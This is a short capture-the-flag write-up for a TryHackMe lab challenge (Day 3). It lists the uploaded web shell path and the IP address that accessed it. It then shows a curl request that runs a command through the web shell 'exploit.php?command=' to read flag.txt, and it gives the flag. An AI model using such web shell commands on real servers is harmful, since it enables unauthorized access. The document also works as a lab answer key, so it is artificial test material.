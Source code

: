 # Try Hack Me

## Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.

### BLUE: Where was the web shell uploaded to?
#### Answer format: /directory/directory/directory/filename.php

![alt text](image.png)

`/media/images/rooms/shell.php`

### BLUE: What IP address accessed the web shell?

![alt text](image-1.png)

`10.11.83.34`

### RED: What is the contents of the flag.txt?

![alt text](image-2.png)

![alt text](image-3.png)

```shell
echo "10.10.50.130 frostypines.thm" >> /etc/hosts
```

```shell
curl https://frostypines.thm/media/images/rooms/exploit.php?command=cat%20flag.txt
```

```
THM{Gl1tch_Was_H3r3}
```
